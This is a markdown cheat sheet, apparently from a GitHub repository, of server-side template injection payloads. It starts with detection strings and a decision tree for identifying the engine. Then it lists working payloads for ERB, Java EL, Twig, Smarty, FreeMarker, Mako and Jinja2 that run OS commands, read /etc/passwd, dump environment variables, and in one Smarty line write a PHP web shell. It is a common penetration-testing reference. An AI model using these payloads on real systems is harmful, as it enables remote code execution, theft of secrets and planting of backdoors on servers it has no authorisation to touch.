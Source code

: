 ### identify using strings
```
{{7*7}}
${7*7}
${{7*7}}
#{ 7 * 7 }
<%= 7 * 7 %>
```

### decision tree (> means no error)
```
${7*7}
│
├─── {{7*7}}
│    │
│    ├─> {{7*'7'}}
│    │   │
│    │   ├─> jinja2
│    │   │
│    │   ├─> twig
│    │   │
│    │   └── unkown
│    │
│    └── not-vulnerable
│
└──> a{*comment*}b
     │
     ├── ${"z".join("ab")}
     │   │
     │   ├──> mako
     │   │
     │   └─── unkown
     │
     └─> smarty
```


### ruby ERB engine - read files and directories
```
<%= Dir.entries('/') %>
```

### ruby ERB engine - os command
```
<%= system('<command>') %>
<%= `<command> /` %>
<%= IO.popen('<command> /').readlines()  %>
<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('<command>') %><%= @b.readline()%>
<% require 'open4' %><% @a,@b,@c,@d=Open4.popen4('<command>') %><%= @c.readline()%>
```


### java - retrieve environment variables
```
${T(java.lang.System).getenv()}
```

### java - os command
```
${T(java.lang.Runtime).getRuntime().exec('<command>')}
```


### expression language EL - os command
```
''.class.forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec(<command>)
''.class.forName('java.lang.ProcessBuilder').getDeclaredConstructors()[1].newInstance(<command>).start()
```


### twig - file read 
```
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
```

### twig - os command (use \x20 or $IFS for blank)
```
{{['<command>']|filter('system')}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("<command>")}}
```


### smarty - os command
```
{php}echo `<command>`;{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['<command>']); ?>",self::clearConfig())}
```


### freemarker - os command
```
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("<command>")}
[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('<command>')}
${"freemarker.template.utility.Execute"?new()("<command>")}
```


### mako - os command
```
<%
import os
x=os.popen('<command>').read()
%>
${x}
```


### jinja2 - os command (number 396 will vary depending of the application)
```
{{''.__class__.mro()[1].__subclasses__()[396]('<command>',shell=True,stdout=-1).communicate()[0].strip()}}
{{config.__class__.__init__.__globals__['os'].popen('<command>').read()}}
```


### find more
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection  

